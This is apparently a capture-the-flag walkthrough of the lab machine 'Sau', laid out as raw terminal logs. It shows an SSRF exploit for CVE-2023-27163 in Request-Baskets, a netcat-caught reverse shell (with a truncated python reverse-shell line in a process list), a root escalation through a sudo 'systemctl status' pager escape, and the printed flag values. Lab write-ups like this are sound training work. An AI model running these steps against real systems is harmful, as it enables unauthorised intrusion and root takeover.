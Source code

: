 1.
──(sabeshan㉿kali)-[~/CVE/request_baskets_1.2.1]
└─$ python3 CVE-2023-27163.py 
Exploit for SSRF vulnerability on Request-Baskets (1.2.1) (CVE-2023-27163).
Usage: python3 exploit.py <public_url> <targeted_url>
----------------------------------------------------------------------------
2.
```bash
┌──(sabeshan㉿kali)-[~/CVE/request_baskets_1.2.1]
└─$ python3 exploit.py 10.10.14.2 1337 http://10.10.11.224:55555/3e1fnu1
Running exploit on http://10.10.11.224:55555/3e1fnu1/login
┌──(sabeshan㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.224] 60012
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                 
┌──(sabeshan㉿kali)-[~]
└─$ stty raw -echo; fg        
[1]  + continued  nc -lvnp 1337
puma@sau:/opt/maltrail$
```
-------------------------------------------------------------------------------------
```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$ /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-08-28 12:03:01 UTC; 49min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 899 (python3)
      Tasks: 10 (limit: 4662)
     Memory: 23.2M
     CGroup: /system.slice/trail.service
             ├─ 899 /usr/bin/python3 server.py
             ├─1281 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p…
             ├─1284 /bin/sh -c logger -p auth.info -t "maltrail[899]" "Failed p…
             ├─1289 sh
             ├─1292 python3 -c import socket,os,pty;s=socket.socket(socket.AF_I…
             ├─1293 /bin/sh
             ├─1295 script /dev/null -c bash
             ├─1296 bash
             └─1309 /usr/bin/systemctl status trail.service
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sshh!
root@sau:/home/puma# id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/home/puma#     cat


^C
root@sau:/home/puma# cat /root/root.txt
f776d23db1e8703badbf0f13457a5b12
root@sau:/home/puma# cat user.xtx \
> '
> '
cat: 'user.xt'$'\n': No such file or directory
root@sau:/home/puma# cat user.txt
2a125d096683c2b4cde03c3122e00bf7
root@sau:/home/puma#
```
-------------------------------------------------------------------------------------
